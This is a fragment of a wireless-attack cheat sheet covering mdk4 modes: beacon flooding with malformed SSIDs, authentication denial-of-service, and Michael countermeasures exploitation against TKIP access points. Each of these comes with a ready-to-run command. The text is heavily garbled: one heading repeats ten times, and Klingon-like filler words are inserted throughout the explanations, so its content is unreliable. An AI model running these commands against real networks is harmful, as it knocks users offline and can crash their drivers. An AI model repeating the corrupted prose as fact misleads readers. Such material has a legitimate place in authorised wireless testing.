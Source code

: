 **Qap** **beacon** **frames** **to** **show** **fake** **APs** **at** **clients**. **This** **can** **sometimes** **crash** **network** **scanners** **and** **even** **drivers**!
```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```
**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**

**ATTACK MODE a: Authentication Denial-Of-Service**
```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```
**ATTACK MODE p: SSID Probing and Bruteforcing**

**SSID Probing and Bruteforcing**:
**SSID** vItlhutlh**AP** (Access Points) **probing** vItlhutlh**AP** (Access Points) **jatlh** SSID **qar** **jatlh** **AP** (Access Points) **range**. **Bruteforcing hidden SSIDs** **ghaH** **wordlist** **ghaH** **jatlh** **SSIDs** **ghaH** **jatlh** **networks** **ghaH** **identification** **ghaH** **access** **ghaH** **help** **ghaH**.

**ATTACK MODE m: Michael Countermeasures Exploitation**

**Michael Countermeasures Exploitation**:
**TKIP APs** **ghaH** **Michael Countermeasures** **ghaH** **exploitation** **ghaH** **random** **ghaH** **duplicate packets** **ghaH** **QoS queues** **ghaH** **trigger** **ghaH** **Michael Countermeasures** **ghaH** **AP** (Access Points) **shutdown** **ghaH** **one-minute** **ghaH**. **DoS** (Denial of Service) **attack tactic** **ghaH** **efficient** **ghaH**.
```bash
# -t <BSSID> of a TKIP AP
# -j use inteligent replay to create the DoS
mdk4 wlan0mon m -t EF:60:69:D7:69:2F [-j]
```
**ATTACK MODE e: EAPOL Start and Logoff Packet Injection**
